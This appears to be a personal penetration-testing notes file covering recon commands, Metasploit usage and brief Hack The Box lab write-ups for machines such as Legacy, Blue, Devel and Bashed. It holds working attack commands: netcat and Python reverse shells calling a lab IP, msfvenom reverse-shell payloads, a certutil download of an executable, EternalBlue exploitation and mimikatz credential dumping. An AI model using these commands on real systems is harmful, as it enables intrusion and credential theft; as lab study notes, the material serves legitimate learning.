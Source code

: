 ### Host files from current dir 
` python -m SimpleHttpServer 8080 `
 
### python tools for network 
https://github.com/SecureAuthCorp/impacket

### Given a string, cut at delimiter ( space) and take 4th field as a result
cut -d " " -f 4  

## Recon

### Website tech identification
whatweb - Kali cli tool for identifying site ( better than most)

Wappalyzer - extension on browser

### netdiscover - arp in the network

netdiscover -r 192.168.88.0/24

### nmap
-sS - "Stealh scan" (not really , just syn, synack and RST - no sessions established) 

nmap -sS 192.168.88.128

nmap -T4 -p- -A

-p- - all ports  ( default is top 1000 ports) ;   -A - scan everything , version, OS, fingerprint

### SMB (and metasploit workflow)

msfconsole

search smb 

use auxiliary/scanner/smb/smb_version 

set RHOSTS 192.168.88.128

run

### nice to knows 
dpkg -i downloaded_package.deb  # install a package

### reverse shell ( just like pentestmonkey )
nc 192.168.1.1 4444 -e /bin/sh        --->   nc -lvp 4444

### bind shell 
nc 192.168.1.1 4444     ---->  nc -lvp 4444 -e /bin/sh

### Foxyproxy productivity 
use foxyproxy addon and add burpsuite settings to it. easy switching 


## Legacy
nmap -sS -p- 10.10.10.4 

nmap -A -p139,445,3389 10.10.10.4

nmap --script vuln -p445 10.10.10.4    ( looked at write-up for this to scan for vulns )

Find MS08-067(works) and  ms17-010(doesnt work)   Eternalblue.

search -f user.txt    , same for root. gg

learned from video :  getuid - windows whoami equivalent , sysinfo - obvious, help - meterpreter help ( lots of useful commands) ;
getsystem attempts to privesc ( might be a bit reckless)

## Lame
nmap --script vuln -p3632 10.10.10.3

3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

distcc indicated as vulnerable, msf unix/misc/distcc_exec gives shell

find / -user root -perm -4000 -print 2>/dev/null      ( find binaries with root privs)

elevate privileges with nmap ( should learn something new instead...)

https://pentestlab.blog/category/privilege-escalation/  

## blue
as name indicates

nmap --script vuln -p445 10.10.10.3   reports windows/smb/ms17_010_eternalblue)

didnt work on first try, resetted machine, tried other exploits, but this one eventually worked. 

##### video stuff
original exploit uses generic shell, but it is possible to "set payload windows/x64/meterpreter/reverse_tcp"  for improvement

*Autoblue* can be used and can deselect meterpreter (OSCP lol) . more manual and not msf

postexploit in windows: hashdump(meterpreter) , route print(shell) , arp -a(shell) , netstat -ano ( shell), ps (meterpreter)

meterpreter > load kiwi, mimikatz , a lot of stuff. Kiwi  : samdump, dumpsecrets

## devel
IIS7 with file upload by FTP. 

making payloads with msfvenom

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.36 LPORT=4444 -f aspx -o shell.aspx 

Needed write-up because new to IIS shells, and windows privesc. 

set payload windows/meterpreter/reverse_tcp

msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set lhost 10.10.14.36

msf5 exploit(multi/handler) > set lport 4444

background and session management.. anyway all thanks to https://x64.moe/hackthebox%20walkthrough%20:%20devel/

use post/multi/recon/local_exploit_suggester    ## for local exploits, new for me

##### video stuff
/usr/share/wordlists/ for dirbuster and other tools

FTP : if file transfer is failing, switch to binary mode with "I" option

privesc : sometimes inside meterpreter "getsystem" is enough lol ( not here)

### undisclosed machine

privesc  : sudo -l  .  nano file import

### jerry

weak password
*admin:admin* for status viewer. 

error on other paths:
<user username="tomcat" password="s3cret">  is actual pass   . Tomcat manager web shell upload.

Java server pages web shell

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.26 LPORT=4444 -f war >shell.war

#### video : 
for cred in $(cat file.txt);do echo -n $cred | base64; done    . example of 1 line bash

certutil  -urlcache -f http://10.10.14.26/sh.exe   // download over certutil (WIN) 
### Nibbler

sudo -l again. more php shells.

### optimum
using compiled winprivesc exploits ( ms16-32)
win exploits 
https://www.fuzzysecurity.com/tutorials/16.html
python2 windows-exploit-suggester.py --database 2020-01-14-mssb.xls --systeminfo ../systeminfo.txt --quiet
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
not much different video from https://alamot.github.io/optimum_writeup/ 

### Bashed
user - embarassing /dev/ folder find by nikto into the php shell.
reverse shells not just nc... can also be python. one liner: 
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.26",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
file creation and edit time can be a hint...  ( learned from write-up..) 


